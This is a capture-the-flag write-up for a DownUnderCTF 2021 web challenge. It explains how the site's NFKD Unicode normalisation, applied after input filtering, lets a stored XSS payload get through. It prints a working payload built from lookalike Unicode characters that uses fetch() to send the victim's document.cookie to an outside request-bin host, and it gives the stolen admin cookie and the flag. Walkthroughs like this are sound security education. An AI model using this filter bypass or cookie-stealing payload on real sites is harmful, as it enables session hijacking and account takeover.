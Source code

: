 # Challenge
A bunch of university students want to start a company and hired some young university students. I wonder if they paid any attention to security.  
  
# Setup
Website: https://web-chainreaction-a4b5ae3b.chal-2021.duc.tf  
  
# Solution
At the bottom of the login page of the website, we see a link to the developer portal. When we visit `/dev`, we see that the website "is still under construction", and it instead directs us to either `/devchat` or `/admin`. Visiting `/admin` redirects us to `/login` with the flashed message `Not allowed.` at the top of the page. This indicates we need to have some admin "cookie" set in order to proceed.  
  
Visiting `/devchat` instead shows us messages between developers, which give us useful information:
<ol>
  <li> "For now I have set a static cookie, but Ill fix that up on Monday." -> confirms our theory about the admin cookie </li>
  <li> "bruh... you basically just added a vulnerability, why tf are you normalizing after checking the bad characters" -> upon searching for "normalising characters", we see that this probably refers to decomposing Unicode characters into constituent, or smaller parts/a part. </li>
  <li> "Only used it once for a uni project this semester, NFKD I think it was" -> NKFD is a Unicode normalisation scheme, so this solidifies the idea of a normalising user inputted characters. The fact that the developer is normalising after checking for some "bad" payload indicates that to exploit this website, we should "smuggle" these bad strings through Unicode characters which are only unpackaged after input validation, like a Trojan horse. </li>
  <li> "Also the about me section was all html escaped making it look ugly, need to try and find a fix for that as well. It looks very ugly." -> this was sent after a developer said the page was autoescaped because values were inputted raw (which would introduce an XSS vulnerability), however now that that feature seems to be raw. This indicates we need to construct an XSS attack which sends a user's cookie to some proxy, report the error to the admins, check the proxy and retrieve their cookie </li>
</ol>

To test our idea of the XSS, we can register an account, log into it and view our profile page. After entering `" hidden value="` into the "About me" field and updating our information, we see that the field disappears:
![About me field is gone](disap.png)
However, if we try to enter `<script>`, we see that the website detects a "hacking attempt":
![Hacking attempt](hackattempt.png)
Not only does this occur for the angle brackets but also simply the string "script". This is where our knowledge of the NFKD normalisation algorithm comes from: we can enter a string which has alternative "Unicode" versions of the angle brackets and one of the letters of "script" to bypass the XSS detection and then have the payload be decomposed with NFKD. Our final payload looks like this (I used RequestBin as the proxy):
```
"＞＜scᴿipt＞ fetch(`https://[my_bin].x.pipedream.net/c=${document.cookie}`)＜/scᴿipt＞
```
Then, after retrieving the cookie **sup3rs3cur34dm1nc00k13**, we can set it on our browser and visit the `/admin` page to read the flag.<br>
Flag: **DUCTF{\_un1c0de\_bypass_x55_ftw!}**
